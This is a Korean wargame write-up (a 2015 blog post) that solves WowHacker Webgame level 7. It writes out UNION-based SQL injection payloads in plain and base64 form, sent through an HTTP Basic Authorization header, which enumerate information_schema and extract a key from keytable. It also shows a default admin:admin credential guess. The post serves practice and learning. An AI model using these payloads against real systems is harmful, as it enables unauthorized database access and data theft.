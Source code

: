 ```yaml
---
layout: post
title: "WowHacker Webgemae level7"
description: ""
categories : development
sub_categories : ""
date: 2015-09-08
tags: ['webhacking', 'wowhacker']
comments: true
share: true
background_image: /assets/images/posts/well-used/hacked.jpg
---
```


하루하루 진행하다보니, 일주일사이에 7번 문제풀이를 하게되었네요.

올드좀비님의 Webhacking.kr 도 함께하고 리버싱.kr 도 함께 연재하고있으니 관심있는 분들은 한번봐주시고 피드백도 부탁드립니다.

참고로 오늘은 급하게(?) 포스팅하는 관계로 포스팅에 이전보다 많은 오타가 있을 것으로 보아 지니. . . 오타가 있다면 피드백 좀
부탁드립니다. 주소만 보았을 때, 왠지 Mysql 관련 문제일 것 같네요.

일단 해당 주소로 접근해봅시다.

  

처음에 얻은 정보는 (guest/guest) 게스트 계정 정보를 얻었네요.

  

  

![](/assets/images/posts/86/2757E44155EEC3A51220FF.PNG)

  

  

  

  

흠, 이 문제 이전 5번문제와 매우 비슷한 것 같습니다.

일단 프록실정해주시구요. guest 계정으로 접근해봅시다.

  

"서버 메세지 : Zaemitneun Webgame - Do not attack Bruteforce"

Bruteforce는 무차별 대입공격입니다. 지금 여러 방식으로 변형되어 사용되고있지만 많은 시간이 소요되는 공격기법입니다.

또 서버에 무리를 많이 주기때문에 서버측은 공격자를 빠르게 식별할수있습니다. 하지만 오늘의 문제와는 거리가 멀기때문에 각설하고 . .

  

![](/assets/images/posts/86/264EFC4155EEC3A71CC316.PNG)

  

게스트 계정으로 로그인했습니다.

제가 request 보낸 값입니다. 아파치 취약점을 이용해서 OPTIONS 메서드로 재 Request 값을 보냅니다.

Authorization에 "Z3Vlc3Q6Z3Vlc3Q=" 값은 base64로 인코딩되어있는 값 입니다. 디코딩을 하면
guest:guest 라는 값을 얻습니다.

따라서 우리는 admin:admin이라는 값으로 한번 시도해봅시다. admin:admin 을 base64로 인코딩하면 이와 같은 값을
얻습니다 "YWRtaW46YWRtaW4=" 한번 요청을 보내봅시다.

*guest request

GET http://webgame.wowhacker.com/AuThWithMySQL/ HTTP/1.1

Host: webgame.wowhacker.com

Proxy-Connection: keep-alive

Cache-Control: max-age=0

Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=

Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like
Gecko) Chrome/45.0.2454.85 Safari/537.36 Paros/3.2.13

Accept-Encoding: sdch

Accept-Language: ko-KR,ko;q=0.8,en-US;q=0.6,en;q=0.4

  

*admin request

GET http://webgame.wowhacker.com/AuThWithMySQL/ HTTP/1.1

Host: webgame.wowhacker.com

Proxy-Connection: keep-alive

Cache-Control: max-age=0

Authorization: Basic YWRtaW46YWRtaW4=

Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like
Gecko) Chrome/45.0.2454.85 Safari/537.36 Paros/3.2.13

Accept-Encoding: sdch

Accept-Language: ko-KR,ko;q=0.8,en-US;q=0.6,en;q=0.4

  

![](/assets/images/posts/86/27055B3755EEC47F333458.PNG)

  

  

어드민 계정에 접근했습니다.

게스트 페이지와 다를게 없습니다. 다른거라고는 어드민 기본정보들? 하지만 이 기본정보들이 힌트가 됩니다.(나중참고)

따로 관리 툴이나 어드민 권한을 이용해서 별도의 패널에 접근할수는 없는 것 같습니다.

힌트도 없구요.

  

문제출제의도를 보면 SQL Injection을 통해서 admin 패스워드를 알아내야하는 것 같습니다.

그렇다면 우선 컬럼의 수를 알아봅시다. 컬럼수는 계정정보를보면 쉽게 추측할수있습니다.

"name,group,address,phone number,hitnum + password" 총 6개의 컬럼으로 추측할수있습니다.

계정인증폼으로 돌아가서 아이디란에 admin옆 싱글 쿼터를 닫고 쿼리문을 날려봅니다.

hax0r'union select '1','2','3','4','5','6'#:1234

  

![](/assets/images/posts/86/2376A03555EEC56A25081B.PNG)

  

name = "1",group"3",address"4",phone number"5",hitnum"6" 이라는걸 알았을때, 패스워드컬럼이
두번째 컬럼이라는것을 알수있습니다. 컬럼수가 6개 인것을 확실하게 확인했고, 이제 테이블을 알아내봅시다. 테이블명들을 group 항목으로
출력합시다.

쿼터문 준비하고, 날립니다. hax0r'union select '1','2',(select group_concat(table_name)
from information_schema.tables),'4','5','6'#:1234

aGF4MHIndW5pb24gc2VsZWN0IChzZWxlY3QgZ3JvdXBfY29uY2F0KHRhYmxlX25hbWUpIGZyb20gaW
5mb3JtYXRpb25fc2NoZW1hLnRhYmxlcyksJzInLCczJywnNCcsJzUnLCc2JyM6MTIzNDo=

Authorization 부분을 보면 Basic 인증을 사용하며 아이디와 패스워드에 구분자 ":"를 사용하고있습니다.

또 Request할때 base64로 인코딩 되구요. 따라서 그냥 입력폼에 기본 쿼터문만 입력해도되고 아니면 직접 request할때
base64로 인코딩해서 날리면 됩니다.

  

  

![](/assets/images/posts/86/277FC54A55EEDD2E0FF583.PNG)

  

  

group: CHARACTER_SETS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS
,COLUMN_PRIVILEGES,KEY_COLUMN_USAGE,PROFILING,ROUTINES,SCHEMATA,SCHEMA_PRIVILE
GES,STATISTICS,TABLES,TABLE_CONSTRAINTS,TABLE_PRIVILEGES,TRIGGERS,USER_PRIVILE
GES,VIEWS,keytable,user_info

  

수상한 테이블 두개를 발견했습니다. 맨 끝에 'keytable','user_info' 테이블입니다.

user_info에는 이전 name = "1",group"3",address"4",phone number"5",hitnum"6" 컬럼이
있나봅니다.

keytable에 어떤 컬럼이 있는지 조회하기 위해서는 "information_schema.columns" 의 "column_name"필드를
이용((select group_concat(column_name) from information_schema.columns where
table_name='keytable'))하면 됩니다.

쿼터문을 짜주시고, 날립시다.

hax0r'union select '1','2',(select group_concat(column_name) from
information_schema.columns where table_name='keytable'),'4','5','6'#:1234

Authorization: Basic aGF4MHIndW5pb24gc2VsZWN0ICcxJywnMicsKHNlbGVjdCBncm91cF9jb
25jYXQoY29sdW1uX25hbWUpIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLmNvbHVtbnMgd2hlcmUgdGF
ibGVfbmFtZT0na2V5dGFibGUnKSwnNCcsJzUnLCc2JyM6MTIzNA06

  

  

![](/assets/images/posts/86/22270A4955EEE07505AC4C.PNG)

  

![](/assets/images/posts/86/2113214455EEE2D1194F69.PNG)

  

  

keytable의 컬럼명을 얻었습니다. no는 번호인것같고 value 해당 컬럼의 정보갔습니다.

limit을 이용하여 value 컬럼에 있는 값을 뽑아((select value from keytable limit 0,1))봅시다.

쿼터문을 준비하고, 날려줍시다.

hax0r'union select '1','2',(select value from keytable limit
0,1),'4','5','6'#:1234

Authorization: Basic aGF4MHIndW5pb24gc2VsZWN0ICcxJywnMicsKHNlbGVjdCB2YWx1ZSBmc
m9tIGtleXRhYmxlIGxpbWl0IDAsMSksJzQnLCc1JywnNicjOjEyMzQ6

  

  

![](/assets/images/posts/86/2470774E55EEE3B50E8B9C.PNG)

  

키 값을 얻었습니다. "If you dream it, you can do it"

"꿈꿀 수 있다면, 그것을 실현하는 것도 가능하다." 멋진 말 이네요.

  

7번 문제 클리어.

문제는 총 10번까지 있으며 다음은 8번 문제를 연재하겠습니다

8번은 로그인, 인증 관련 문제입니다. 이것도 왠지 인젝션 일 것 같은데.

  

![](/assets/images/posts/86/23237D5055EEE50D1FFCCA.JPEG)

  

  

  

  

  

  

  

  

